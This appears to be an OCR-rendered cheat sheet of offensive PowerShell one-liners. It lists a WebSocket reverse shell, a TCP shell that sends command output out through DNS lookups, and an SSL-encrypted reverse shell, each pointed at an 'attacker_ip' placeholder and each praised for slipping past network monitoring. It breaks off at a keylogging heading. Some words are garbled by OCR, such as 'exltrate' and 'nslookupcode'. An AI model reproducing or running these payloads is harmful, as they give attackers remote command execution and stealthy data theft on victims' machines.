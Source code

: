 ### WebSocket-Based PowerShell Reverse Shell

Establishes a reverse shell using WebSockets, which can be more stealthy and bypass some network monitoring tools.

```powershell
$ClientWebSocket = New-Object System.Net.WebSockets.ClientWebSocket; $uri = New-Object
System.Uri("ws://attacker_ip:attacker_port"); $ClientWebSocket.ConnectAsync($uri, $null).Result;
$buffer = New-Object Byte[] 1024; while ($ClientWebSocket.State -eq 'Open') { $received =
$ClientWebSocket.ReceiveAsync($buffer, $null).Result; $command =
[System.Text.Encoding]::ASCII.GetString($buffer, 0, $received.Count); $output = iex $command 2>&1 |
Out-String; $bytesToSend = [System.Text.Encoding]::ASCII.GetBytes($output);
$ClientWebSocket.SendAsync($bytesToSend, 'Binary', $true, $null).Wait() }
```

### DNS-Based PowerShell Reverse Shell

This script uses DNS requests to exltrate data, making the reverse shell trac appear as DNS queries, which can be less suspicious and harder to detect.

```powershell
function Invoke-DNSReverseShell { param([string]$attacker_ip, [int]$attacker_port) $client = New-Object
System.Net.Sockets.TCPClient($attacker_ip, $attacker_port); $stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){; $data =
(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 |
Out-String ); $encodedSendback =
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($sendback)); nslookupcode
$encodedSendback $attacker_ip; $stream.Flush()}; $client.Close() }
```

### Encrypted PowerShell Reverse Shell

Creates an encrypted reverse shell using SSL to secure the communication channel, making it more difficult for network security measures to inspect the traffic.

```powershell
$ErrorActionPreference = 'SilentlyContinue'; $client = New-Object
System.Net.Sockets.TCPClient('attacker_ip', attacker_port); $stream = $client.GetStream(); $sslStream =
New-Object System.Net.Security.SslStream($stream, $false, {$true} );
$sslStream.AuthenticateAsClient('attacker_ip'); $writer = New-Object
System.IO.StreamWriter($sslStream); $reader = New-Object System.IO.StreamReader($sslStream);
while($true) { $writer.WriteLine('PS ' + (pwd).Path + '> '); $writer.Flush(); $command =
$reader.ReadLine(); if($command -eq 'exit') { break; }; $output = iex $command 2>&1 | Out-String;
$writer.WriteLine($output); $writer.Flush() }; $client.Close()
```

### Invoke Windows API for Keylogging

This script uses a Windows API call to check the state of each key on the keyboard, eectively logging
keystrokes. It can be used to capture user input.
